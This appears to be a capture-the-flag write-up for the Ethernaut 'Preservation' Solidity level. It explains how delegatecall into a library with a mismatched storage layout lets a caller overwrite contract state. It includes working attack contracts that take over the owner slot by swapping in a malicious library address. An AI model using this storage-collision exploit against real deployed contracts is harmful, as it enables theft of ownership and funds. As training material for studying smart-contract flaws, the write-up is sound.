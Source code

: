 # Preservation
###### tags: `writeup`
This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
The goal of this level is for you to claim ownership of the instance you are given.
Things that might help
* Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
* Understanding what it means for `delegatecall` to be context-preserving.
* Understanding how storage variables are stored and accessed.
* Understanding how casting works between different data types.

```javascript
contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

```javascript
await ethernaut.owner()
"0x1663fcb2f6566723a4c429f8ed34352726680f9a"
```

Both `setFirstTime` and `setSecondTime` use delegatecall to set time for each library.

So, there's simple concept to declare the target contract and rewite the `setTime()` function to change instance owner variable.

Moreover, original `setTime()` in `LibraryContract` doesn't declare variable in right struct, so it will modifie the state at `slot 0`.

First, use `setFirstTime()` to change `timeZone1Library` to become our malicious contract address, then transact to it again to make our payload work.

Our payload might change caller's local variable `owner` to become `tx.origin` which should be our EOA address.

```javascript
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

contract PreservationPunisher {
    function Punish(address _target,uint Rewriter) public {
        Preservation target = Preservation(_target);/* Preservation instance address */
        target.setFirstTime(Rewriter);/* Rewrite timeZone1Library to LocalVariableRewritter address */
        target.setFirstTime(0);/* Let LocalVariableRewritte work */
    }
}

contract LocalVariableRewriter {
  address public padding1;
  address public padding2;
  address public owner;

  function setTime(uint playerAddress) public {
    owner = tx.origin;
  }
}
```

Use same attributes and transact twice.

![](https://i.imgur.com/y0rTsrq.png)

![](https://i.imgur.com/lgGvMXm.png)

Well, this method is too rough, you can modify the contract more clean and work in one shot, maybe.